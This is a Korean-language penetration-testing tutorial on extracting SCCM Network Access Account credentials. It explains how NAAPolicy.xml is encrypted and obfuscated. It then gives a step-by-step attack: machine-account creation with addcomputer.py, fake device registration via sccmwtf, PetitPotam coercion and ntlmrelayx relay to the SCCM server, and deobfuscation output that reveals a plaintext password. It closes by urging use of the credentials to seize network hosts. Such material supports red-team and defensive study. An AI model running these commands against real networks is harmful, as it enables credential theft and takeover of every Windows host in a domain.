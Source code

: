 # SCCM

## 개념

SCCM(Microsoft System Center Configuration Manager)은 네트워크 내 윈도우 호스트들을 업데이트하거나 패치 하는데 사용되는 Intune 솔루션 제품들 중 하나다.

* **SCCM Server:** SCCM을 전반적으로 관리하는 서버
* **SCCM Client:** SCCM에 등록된 뒤 업데이트 및 패치를 받을 클라이언트 호스트
* **DP (Distribution Point):** SCCM 클라이언트들이 다운받고 설치할 패키지들을 배포하는 서버
* **NAA (Network Access Account):** SCCM 클라이언트가 머신 계정으로 DP나 SCCM 서버에 접근할 수 없는 경우, 대신 사용하게 되는 SCCM 전용 네트워크 접근 계쩡

SCCM에는 NAA라는 계정이 존재한다. 클라이언트들은 SCCM 서버 혹은 DP 서버에 접근할 때 원래 자신의 머신 계정을 이용하는데, 이때 접근이 불가능할 경우 NAA를 사용하게 된다. NAA와 관련된 계정 정보 (유저이름, 비밀번호) SCCM 클라이언트가 SCCM 서버에 등록될 때 자동적으로 클라이언트에게 전송된다. 클라이언트가 서버에 등록할 때 다양한 정책과 설정 관련된 파일들을 XML 형태로 다운받게 되는데, 이때 NAA 계정 정보가 들어간 `NAAConfig.xml` 도 같이 다운받게 된다.

`NAAPolicy.xml` 에는 NAA 계정 정보가 암호화 + 난독화 되어 있는 상태로 저장된다. 먼저 난독화가 진행된 뒤, 이 난독화된 blob에 암호화를 진행한다. 암호화에는 SCCM 클라이언트가 등록할 때 생성한 Self-Signed Certificate 의 RSA 공개 키에서 도출된 키가 사용된다.

## 공격

#### 공격 사전 조건

1. SCCM 서버가 네트워크안에 있으며, SCCM을 사용 중
2. SCCM 서버가 NAA 를 사용하도록 설정
3. 공격자가 머신 계정을 생성할 수 있도록 MachineAccountQuota 가 0 이상이거나, Authentication Coercion 공격 가능

위 조건들이 맞는 다면 공격자는 만들어놨던 머신 계정을 이용하거나 Authentication Coercion을 이용해 SCCM 서버에 머신 계정으로 접근한 뒤, 가짜 디바이스를 생성하고 SCCM 서버에 등록한 다음, 서버가 배포하는 `NAAConfig.xml` 에서 `NAAPolicy.xml` 을 받아온다. 그 뒤, 자신의 Self-Signed Certificate  RSA 공개키에서 도출한 키를 사용해 NAA 계정 정보를 복호화 한 뒤, 윈도우의 기본 DLL 파일인 `PolicyAgent.dll` 을 이용해 NAA 계정 정보를 역난독화 한 뒤 NAA 의 평문 유저 이름과 비밀번호를 알아낼 수 있다.

NAA 계정의 경우 네트워크 내 호스트들에 접근한 뒤 패키지들을 설치하거나 패치를 진행하는 등의 일을 해야하기 때문에 로컬 관리자 권한을 갖고 있는 경우가 많다. 즉, NAA 계정 정보만 성공적으로 얻어낼 수 있다면 공격자는 순식간에 네트워크 내의 모든 윈도우 호스트들을 장악할 수 있게 된다.

## 실습

### 정보 수집

SCCM 서버 정보 수집

```
# DNS 
sccm.domain.com, sccmcm.domain.com, sccmdp.domain.com 등으로 검색 

# HTTP/HTTPS 
1. 모든 웹 서버 아이피주소 확인 (nmap -> grep + cut + sort) 
2. curl, gowitness 등을 사용해 http(s)://<host>/ccm_system_windowsauth/request 페이지가 존재하는지, 존재 한다면 basic auth 를 나타내는지 확인 
```

MAQ 및 Auth Coercion 확인

```
cme ldap <dc> -u <u> -p <p> -M maq 
cme smb <host> -u <u> -p <p> -M petitpotam,spooler,dfscoerce,shadowcoerce 
```

### 공격 1 - Machine Account + SCCMWtf

머신 계정을 생성한 뒤 SCCM 서버에 접근, 가짜 디바이스 생성, NAAConfig + NAAPolicy를 받아온다

```
# 머신 계정 생성 
addcomputer.py domain.com/user:pass -dc-ip <dc> -computer-name 'fakeComp' -computer-pass '<pass>'

# SCCMWtf
git clone https://github.com/xpn/sccmwtf
python3 sccmwtf.py fake-device fake-device.domain.com SCCM 'domain.com\fakeComp$' '<pass>'

# NAAPolicy.xml 받은 뒤 Post-Ex 단계로 진행 
```

### 공격 2 - Authentication Coercion + SCCM Relay

```
# Authentication Coercion. 예) Petitpotam 
python3 petitpotam.py -u <u> -p <p> <attackerIP> <targetIP>

# SCCM 서버를 향해 SCCM Relay 
- ThePorgs 포크 버전 사용 (https://github.com/ThePorgs/impacket) 

ntlmrelayx.py -t http://<server>/ccm_system_windowsauth/request --sccm --sccm-device fake-device --sccm-fqdn domain.com --http-port 80 --sccm-server sccm --sccm-sleep 10

# NAAPolicy.xml 받은 뒤 Post-Ex 단계로 진행 
```

### Post-Ex - NAAPolicy.xml 역난독화

XPN이 발표한 `policysecretunobfuscate.c` 를 컴파일 한 뒤, `NAAPolicy.xml` 파일안의 `NetworkAccessUsername` 와 `NetworkAccessPassword` 의 CDATA 값을 줘서 실행하면 평문 비밀번호가 나온다.

```
PS C:\dev\naadeobs\x64\Debug> .\naadeobs.exe 112233<REDACTED>
choi\sccm-naa


PS C:\dev\naadeobs \x64\Debug> .\naadeobs.exe 112233<REDACTED>
Password123!
```

이제 얻어낸 평문 유저 이름과 평문 비밀번호로 네트워크 내 다양한 머신들을 장악하면 된다.

### 레퍼런스

* https://blog.xpnsec.com/unobfuscating-network-access-accounts/
* https://github.com/xpn/sccmwtf
* https://github.com/ThePorgs/impacket/pull/14
* https://www.thehacker.recipes/ad/movement/sccm-mecm
* https://posts.specterops.io/the-phantom-credentials-of-sccm-why-the-naa-wont-die-332ac7aa1ab9

